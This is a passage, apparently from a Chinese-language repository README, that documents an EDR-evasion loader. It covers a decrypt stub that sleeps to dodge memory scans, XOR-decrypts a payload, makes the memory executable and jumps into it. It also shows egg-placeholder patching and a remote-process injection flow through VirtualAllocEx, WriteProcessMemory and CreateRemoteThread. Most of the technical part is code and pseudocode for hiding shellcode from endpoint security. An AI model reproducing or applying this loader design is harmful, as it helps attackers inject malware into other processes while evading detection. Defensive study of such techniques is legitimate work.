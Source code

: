 ### Decrypt Stub 执行流程

```c
void DecryptStub() {
    // 1. Sleep - 避开线程创建时的即时内存扫描
    Sleep(5000);  // 5 秒

    // 2. XOR 解密 encrypted payload
    XorDecrypt(encryptedPayloadAddr, payloadSize);

    // 3. 修改内存保护（RW → RX）
    VirtualProtect(encryptedPayloadAddr, payloadSize, PAGE_EXECUTE_READ, &oldProtect);

    // 4. 跳转到解密后的 payload
    jmp encryptedPayloadAddr;  // 使用 trampoline: mov r10, addr; jmp r10
}
```

### Egg Hunting（占位符替换）

Decrypt Stub 是预编译的 shellcode，包含三个 "egg"（占位符），在运行时被主程序替换：

| Egg | 模式（Pattern） | 用途 | 值 |
|-----|----------------|------|-----|
| **Egg 1** | `0x88 * 8` | 加密 payload 的地址 | `payloadAddr` |
| **Egg 2** | `0xDEAD10AF` | Payload 的大小 | `payloadSize` |
| **Egg 3** | `0x00 * 8` (in trampoline) | 跳转地址 | `payloadAddr` |

**Egg 替换流程**：
```c
// 搜索 Egg 1: 0x88 * 8
for (i = 0; i < decryptStubSize; i++) {
    if (decryptStub[i..i+7] == 0x8888888888888888) {
        memcpy(&decryptStub[i], &payloadAddr, 8);  // 替换为真实地址
        break;
    }
}
```

## 执行流程图

```
[主程序]
    ↓
1. VirtualAllocEx(PAGE_READWRITE) → 分配 RW 内存
    ↓
2. WriteProcessMemory(加密 payload) → 写入加密数据
    ↓
3. 修补 Decrypt Stub 的 eggs
   ├─ Egg 1: 0x88 * 8 → payloadAddr
   ├─ Egg 2: 0xDEAD10AF → payloadSize
   └─ Egg 3: 0x00 * 8 → payloadAddr (jump)
    ↓
4. VirtualAllocEx(PAGE_EXECUTE_READ) → 分配 RX 内存
    ↓
5. WriteProcessMemory(Decrypt Stub) → 写入解密器
    ↓
6. CreateRemoteThread(Decrypt Stub) → 创建线程
    ↓
[内核回调触发内存扫描] ← EDR 只能看到：
    ├─ RW 内存：加密数据（无可执行权限，安全）
    └─ RX 内存：解密器（无恶意特征，安全）
    ↓
```